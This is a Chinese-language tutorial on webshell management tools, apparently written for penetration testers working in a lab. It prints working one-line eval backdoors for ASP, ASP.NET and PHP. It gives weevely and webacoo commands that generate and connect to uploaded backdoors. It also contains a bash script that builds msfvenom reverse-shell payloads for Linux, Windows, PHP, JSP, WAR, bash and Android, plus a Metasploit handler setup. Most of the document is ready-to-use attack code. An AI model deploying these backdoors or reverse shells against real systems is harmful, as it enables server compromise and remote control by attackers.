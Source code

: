 # webshell管理工具

## 1 Cknife

一款webshell连接工具，项目地址：https://github.com/Chora10/Cknife

工具启动：

```
/usr/lib/jvm/jdk1.8.0_281/bin/java  -jar Cknife.jar &
```

工具的使用：

常见的一句话后门样例：

```
服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>
```

![image-20221113191659938](../../images//image-20221113191659938.png)



## 2 Behinder_v3.0

工具启动：

```
/usr/lib/jvm/jdk1.8.0_281/bin/java  -jar Behinder.jar
```

![image-20221113192616898](../../images//image-20221113192616898.png)

![image-20221113192820509](../../images//image-20221113192820509.png)



## 3 behinder_v4.0.5

使用前先生成webshell

![image-20221113193531630](../../images//image-20221113193531630.png)

随后上传后，使用对应的协议连接即可。

<img src="../../images//image-20221113193636022.png" alt="image-20221113193636022" style="zoom:67%;" />



## 4 /usr/share/webshells

在kali的/usr/share/webshells目录中，同样内置了一些webshell可供使用。

![image-20221114104724865](../../images//image-20221114104724865.png)

![image-20221114104937171](../../images//image-20221114104937171.png)



## 5 weevely

Weevely是一款使用python编写的webshell工具，集webshell生成和连接于一身，采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的隐蔽性。

![image-20221114105333537](../../images//image-20221114105333537.png)

```
weevely generate 12345 /root/fsec.php
weevely http://192.168.0.104/hackable/uploads/fsec.php 12345
```

![image-20221114110154229](../../images//image-20221114110154229.png)



## 6 webacoo

*webacoo*是使用Perl语言编写的Web后门工具。

```
Options:
  -g		Generate backdoor code (-o is required)
  -f FUNCTION	PHP System function to use
	FUNCTION
		1: system 	(default)
		2: shell_exec
		3: exec
		4: passthru
		5: popen
  -o OUTPUT	Generated backdoor output filename
  -r 		Return un-obfuscated backdoor code
  -t		Establish remote "terminal" connection (-u is required)
  -u URL	Backdoor URL
  -e CMD	Single command execution mode (-t and -u are required)
  -m METHOD	HTTP method to be used (default is GET)
  -c C_NAME	Cookie name (default: "M-cookie")
  -d DELIM	Delimiter (default: New random for each request)
  -a AGENT	HTTP header user-agent (default exist)
  -p PROXY	Use proxy (tor, ip:port or user:pass:ip:port)
  -v LEVEL	Verbose level
	LEVEL
		0: no additional info (default)
		1: print HTTP headers
		2: print HTTP headers + data
  -l LOG	Log activity to file
  -h		Display help and exit
  update	Check for updates and apply if any
```

```
webacoo -g -f 1 -o webacoo.php
webacoo -t -u http://192.168.0.104/hackable/uploads/webacoo.php
```

![image-20221114110858972](../../images//image-20221114110858972.png)



## 7 metasploit

将如下脚本复制于kaili中，运行后即可创建多类型的脚本。

```
#!/bin/bash
echo "pls input your IP ADDRESS"
read ip
rm -rf shell*
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f elf > shell64.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f exe > shell64.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=80 -f raw >shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=4444 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=4444 -f war > shell.war
msfvenom -p cmd/unix/reverse_bash LHOST=$ip LPORT=4444 -f raw > shell.sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ip LPORT=4444 R > shell.apk
```

![image-20221114111242417](../../images//image-20221114111242417.png)

PHP的shell需要编辑下去除注释才能使用。

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 80
exploit
```

![image-20221114112051540](../../images//image-20221114112051540.png)



















